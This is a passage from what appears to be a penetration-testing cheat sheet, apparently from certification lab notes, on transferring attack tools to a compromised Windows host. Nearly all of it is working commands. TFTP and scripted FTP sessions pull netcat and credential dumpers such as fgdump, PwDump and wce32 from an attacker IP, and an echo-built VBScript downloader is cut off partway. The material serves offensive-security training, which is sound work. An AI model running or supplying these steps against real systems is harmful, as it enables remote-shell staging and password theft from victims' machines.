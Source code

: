 ```
net use Z: \\<IP>\myshare
```

Copy file to the /tftp and grab it from Windows machine:

```
atftpd --daemon --port 69 /tftp
```

Run on Windows machine:

```
tftp -i 10.11.0.219 get nc.exe
```

Download files over FTP non-interactively:

```bat
echo open 10.11.0.219 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

```bat
echo open 10.11.0.219 21> ftp.txt
echo USER anonymous>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET fgdump.exe >> ftp.txt
echo GET cachedump.exe >> ftp.txt
echo GET PwDump.exe >> ftp.txt
echo GET servpw.exe >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

```bat
echo open 10.11.0.219 21> ftp.txt
echo USER anonymous>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET wce32.exe >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

VBScript that acts like wget:

```vb
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
```